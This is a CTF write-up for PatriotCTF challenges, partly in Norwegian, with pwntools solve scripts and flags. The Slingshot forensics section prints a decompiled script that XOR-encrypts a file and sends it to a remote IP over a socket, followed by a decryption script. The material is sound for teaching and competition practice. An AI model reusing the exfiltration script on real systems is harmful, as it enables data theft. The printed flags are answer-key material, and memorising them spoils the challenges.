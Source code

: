 # PATRIOTCTF

## CRYPTO


## FORENSICS

## BAD BLOOD

### Oppgave



*PS: Hele oppgaven finnes [her](challenge.md)*

### Løsning

```py
from pwn import *

while True:
    io = remote("chal.pctf.competitivecyber.club", 10001)

    solutions = [
        b"Invoke-P0wnedshell.ps1",
        b"Invoke-UrbanBishop.ps1",
        b"WinRM",
        b"Covenant"
    ]
    for solution in solutions:
        io.sendlineafter(b">> ", solution)

    io.interactive()

    io.close()
```

<details>
<summary>Flagg</summary>

`pctf{3v3nt_l0gs_reve4l_al1_a981eb}`
</details>


## SLINGSHOT

### Oppgave



*PS: Hele oppgaven finnes [her](challenge.md)*

### Løsning

Exporting files from all packets in Wireshark will result in many files called %, etc and one called download.pyc
This file can be decompiled to python using [PyLingual](https://pylingual.io/view_chimera?identifier=b8c58f248600bfa1f83337bd7bb8f6f5a64a16219e56db0e3a2257ca23afc623):

```py
# Source timestamp: 2024-09-17 17:47:38 UTC (1726595258)
import sys
import socket
import time
import math

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
file = sys.argv[1]
ip = sys.argv[2]
port = 22993

with open(file, 'rb') as r:
    data_bytes = r.read()

current_time = time.time()
current_time = math.floor(current_time)
key_bytes = str(current_time).encode('utf-8')
init_key_len = len(key_bytes)
data_bytes_len = len(data_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]
encrypt_bytes = bytes((a ^ b for a, b in zip(key_bytes, data_bytes)))

s.connect((ip, port))
s.send(encrypt_bytes)
```

The program connects to some ip using port `22993`. Follow the TCP stream for traffic at this port in Wireshark to get the output from the python program. The python program can now be reversed with ChatGPT to get the original file.
There is only one problem. The timestamp for when the program was run is needed to decrypt the message. What we have so far is the timestamp for when the file was created.

To get the correct timestamp first try the timestamp `1726595769` and look at the output. The output is very close to correct, but there are some wierd artifacts. We just need to adjust one number at the time until the words of the file are readably correct. We end up with the timestamp `1726595769`:

```py
import socket

# Open file
with open("dump2.bin", 'rb') as f:
    encrypted_bytes = f.read()

# Timestamp
key_bytes = "1726595769".encode('utf-8')
init_key_len = len(key_bytes)
data_bytes_len = len(encrypted_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]

# Decrypt using XOR
decrypted_bytes = bytes((a ^ b for a, b in zip(key_bytes, encrypted_bytes)))

# Optionally, save the decrypted data to a file
with open("flag.png", 'wb') as f:
    f.write(decrypted_bytes)
```

This creates an image with the flag printed on to it-.

<details>
<summary>Flagg</summary>

`PCTF{1f_y0o_41n7_f1r57_y0ur3_l457}`
</details>



## MISC

## EMOJI STACK

### Oppgave



*PS: Hele oppgaven finnes [her](challenge.md)*

### Løsning

To avoid making it too complivated I desided to try to translate it to Brainfuck. This python script convert the emojies to Brainfuck syntax. Then I ran it in this online [Brainfuck interpreter](https://sange.fi/esoteric/brainfuck/impl/interp/i.html).

```py
code = "👉👉👉👉👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁08👍🔁34👈👈👈👈👈👈👈👈👈👈👍🔁48👉🔁15👍🔁5e👈🔁07👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁02👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👍🔁42👉🔁02👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁17👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈🔁14👍🔁20👉🔁06👍🔁51👉🔁0c👍🔁34👉👉👍🔁46👈🔁14👍🔁4d👈🔁01👍🔁51👉🔁04👍🔁20👉🔁03👍🔁2f👉👉👉👉👉👉👉👉👍🔁4d👈🔁17👍🔁42👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👍🔁7c👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁0c👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈👈👈👈👈👈👈👈👈👈👈👈👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁0c👍🔁32👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁04👍🔁5e👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👍🔁47👈🔁0f👍🔁46👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈🔁03👍🔁20👈🔁08👍🔁5e👉🔁10👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈🔁1d👍🔁40👉🔁10👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉👉👉👉👍🔁5e👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬"

code = code.replace("👉", ">")
code = code.replace("👈", "<")
code = code.replace("👍", "+")
code = code.replace("👍", "+")
code = code.replace("💬", ".")

while True:
    try:
        index = code.find("🔁")
        symbol = code[index-1]
        count = int(code[index+1:index+3],16)
        code = code[:index] + symbol*count + code[index+3:]
        print(count)
    except ValueError:
        break
print(code)
```

<details>
<summary>Flagg</summary>

`CACI{TUR!NG_!5_R011!NG_!N_H!5_GR@V3}`
</details>


## MAKING BAKING PANCAKES

### Oppgave

```
Welcome to the pancake shop!
Pancakes have layers, we need you to get through them all to get our secret pancake mix formula.
This server will require you to complete 1000 challenge-responses.
A response can be created by doing the following:
1. Base64 decoding the challenge once (will output (encoded|n))
2. Decoding the challenge n more times.
3. Send (decoded|current challenge iteration)
Example response for challenge 485/1000: e9208047e544312e6eac685e4e1f7e20|485
Good luck!
```

*PS: Hele oppgaven finnes [her](challenge.md)*

### Løsning

```py
from pwn import *

io = remote("chal.pctf.competitivecyber.club", 9001)

for i in range(1000):
    # Read challenge
    io.recvuntil(b"Challenge: ")
    challenge = b64d(io.recvline())
    challenge = challenge.split(b"|")
    
    # Read challenge number
    io.recvuntil(b"(")
    chall_num = io.recvuntil(b"/", drop=True)
    
    # Decrypt n times
    for n in range(int(challenge[1])):
        challenge[0] = b64d(challenge[0]).decode("utf-8")

    # Concat answer
    answer = (challenge[0] + "|" + str(int(chall_num))).encode('utf-8')
    print(answer)

    # Send answer
    io.sendlineafter(b">>", answer)

io.interactive()
```

<details>
<summary>Flagg</summary>

`pctf{store_bought_pancake_batter_fa82370}`
</details>



## OPTIONAL


## OSINT

## NIGHT SCHOOL

### Oppgave



*PS: Hele oppgaven finnes [her](challenge.md)*

### Løsning

As the name inplies it should be a school and it should be in Fairfax. Therefor the search query was `George Mason University statues three`.

<details>
<summary>Flagg</summary>

`PCTF{Communitas}`
</details>



## PWN


## REV


## WEB

